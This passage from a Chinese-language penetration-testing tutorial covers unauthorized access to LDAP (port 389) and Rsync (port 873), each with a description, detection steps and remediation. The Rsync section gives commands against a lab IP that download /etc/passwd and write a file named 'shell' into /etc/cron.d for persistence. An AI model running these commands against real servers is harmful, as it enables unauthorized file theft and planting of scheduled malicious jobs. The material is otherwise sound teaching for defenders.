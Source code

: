 **漏洞简介**

LDAP中文全称为：轻型目录访问协议（Lightweight Directory Access Protocol），默认使用389， LDAP 底层一般使用 TCP 或 UDP 作为传输协议。目录服务是一个特殊的数据库，是一种以树状结构的目录数据库为基础。未对LDAP的访问进行密码验证，导致未授权访问。

**漏洞检测**

1、端口扫描

2、使用nmap寻找到相关的LDAP服务器，可以使用ldapbrowser工具（下载：https://ldapbrowserwindows.com/）直接连接，获取目录内容。

**![](https://qqq.gtimg.cn/music/photo_new/T053XD000020Clc746fxuq.jpg)**

**漏洞修复**

-   修改ldap的acl，禁止匿名访问。
-   根据业务设置ldap访问白名单或黑名单；

## 3.  Rsync 未授权访问（873）

**漏洞简介**

rsync是Linux/Unix下的一个远程数据同步工具，可通过LAN/WAN快速同步多台主机间的文件和目录，默认运行在873端口。由于配置不当，导致任何人可未授权访问rsync，上传本地文件，下载服务器文件。

**漏洞检测**

1、端口扫描

2、root@kali使用Rsync命令即可进行检测。

rsync rsync://192.168.126.130:873/

rsync rsync://192.168.126.130:873/src

利用rsync下载任意文件

rsync rsync://192.168.126.130:873/src/

![](https://qqq.gtimg.cn/music/photo_new/T053XD00002O3hrz3kSfcY.jpg)  
etc/passwd ./

![](https://qqq.gtimg.cn/music/photo_new/T053XD00002kInIN3cjPLD.jpg)

或者写入任意文件

rsync -av shell rsync://192.168.126.130:873/src/etc/cron.d/shell

![](https://qqq.gtimg.cn/music/photo_new/T053XD000039yLW20bYMvW.jpg)

**漏洞修复**

-   隐藏掉 module 信息：修改配置文件 list =false。
-   权限控制：不需要写入权限的 module 的设置为只读 Read only = true;
-   网络访问控制：使用安全组策略或白名单限制，只允许必要访问的主机访问;
-   账户认证：只允许指定的用户利用指定的密码使用 rsync 服务;
-   数据加密传输：Rsync 默认没有直接支持加密传输，如果需要 Rsync 同步重要性很高的数据，可以使用 ssh;
-   参考文章：https://www.freebuf.com/column/202771.html
